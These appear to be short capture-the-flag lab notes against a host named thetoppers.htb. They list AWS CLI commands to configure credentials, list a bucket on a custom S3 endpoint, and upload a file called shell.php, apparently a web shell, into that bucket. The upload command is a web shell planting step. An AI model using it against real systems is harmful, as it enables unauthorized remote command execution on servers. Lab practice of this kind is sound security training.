 
initial setup:

aws configure

list files:

aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb

upload file:

aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb

